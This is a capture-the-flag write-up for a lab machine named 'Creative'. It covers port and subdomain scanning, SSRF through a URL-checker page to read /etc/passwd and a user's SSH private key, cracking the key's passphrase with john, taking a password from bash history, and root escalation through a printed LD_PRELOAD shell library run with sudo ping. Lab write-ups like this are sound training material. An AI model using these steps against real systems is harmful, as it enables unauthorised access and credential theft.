 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We run a port scan.")}}

{{console("nmap -T5 -p- 10.10.200.176", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-06 20:17 CET
Nmap scan report for 10.10.200.176
Host is up (0.075s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 176.50 seconds")}}

{{text("We find two open ports.")}}

{{list(['22 (SSH)', '80 (HTTP)'])}}

{{text("We add an entry to our <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/etc/hosts</code> file and we visit the web page.")}}

{{image("../../static/writeups/creative/images/000001.jpg")}}

{{text("We find nothing but a static website without anything interesting.")}}

{{text("I ran a directory scan but didn't find anything interesting. My next step is to scan the subdomains.")}}

{{console("ffuf -u http://10.10.200.176 -w /usr/share/wordlists/dirb/big.txt -H 'Host: FUZZ.creative.th' -fw 6", "
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.200.176
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Header           : Host: FUZZ.creative.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 6
________________________________________________

beta                    [Status: 200, Size: 591, Words: 91, Lines: 20, Duration: 86ms]
:: Progress: [20469/20469] :: Job [1/1] :: 446 req/sec :: Duration: [0:00:45] :: Errors: 0 ::")}}

{{text("We add <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>beta.creative.thm</code> to our <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/etc/hosts</code> file  and go to the subdomain.")}}

{{image("../../static/writeups/creative/images/000002.jpg")}}

{{header("Shell as saad", "shell-as-saad")}}

{{text("It is a URL tester that checks if the entered website is alive.")}}

{{text("It we input <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>http://localhost</code> we get back the HTML code of <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>creative.thm</code>. I wondered if I can use this to read files.")}}

{{text("I couldn't get it to read any other file. I thought that if I change the port I will be able to access a service that is unreacheable from the outside.")}}

{{text("I used Burp to scan through the ports and got a directory listing by using port <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>1337</code>.")}}

{{text("If we enter <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>http://127.0.0.1:1337</code> into the field, we get the directories.")}}

{{image("../../static/writeups/creative/images/000003.jpg")}}

{{text("We can check for existing users by entering <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>http://127.0.0.1:1337/etc/passwd</code>. We see that user <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>saad</code> exists.")}}

{{text("While enumerating through that user's home directory, we read his <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>id_rsa</code> key and copy it onto our machine.")}}

{{text("We try to log in via SSH using this key, but it's password protected. We use <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>ssh2john</code> to crack it.")}}

{{console("ssh2john id_rsa > hash", "")}}

{{console("john hash --wordlist=/usr/share/wordlists/rockyou.txt", "Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
sweetness        (id_rsa)     
1g 0:00:00:23 DONE (2024-12-06 21:59) 0.04173g/s 40.06p/s 40.06c/s 40.06C/s hawaii..sandy
Use the '--show' option to display all of the cracked passwords reliably
Session completed.")}}

{{text("Now we can log in as user <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>saad</code>.")}}

{{header("Shell as root", "shell-as-root")}}

{{text("While looking through my user's home directory, I read his bash history file and found his password.")}}

{{console("cat .bash_history", "whoami
pwd
ls -al
ls
cd ..
sudo -l
echo 'saad:[REDACTED]' > creds.txt
rm creds.txt
sudo -l
whomai
whoami
pwd
ls -al
sudo -l
ls -al
pwd
whoami
...")}}

{{text("Thanks to that now we can check his sudo privilages.")}}

{{console("sudo -l", "Matching Defaults entries for saad on m4lware:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User saad may run the following commands on m4lware:
    (root) /usr/bin/ping")}}

{{text("We see that we are able to run ping as root, but I couldn't find a way to privilage escalate using that.")}}

{{text("We also notice the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>env_keep+=LD_PRELOAD</code> which after a quick search turns out to be exploitable.")}}

{{link("https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/", "https://www.hackingarticles.in/wp-includes/images/w-logo-blue-white-bg.png", "Linux Privilege Escalation using LD_Preload")}}

{{text("We create a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>shell.c</code> file in the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/tmp</code> directory.")}}

{{text("We add the code from the article to it.")}}

{{console("", "#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv('LD_PRELOAD');
setgid(0);
setuid(0);
system('/bin/sh');
}")}}

{{text("Now we need to compile it and run the ping as sudo with the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>LD_PRELOAD</code> variable pointing to our malicious library.")}}

{{image("../../static/writeups/creative/images/000004.jpg")}}

{{script()}}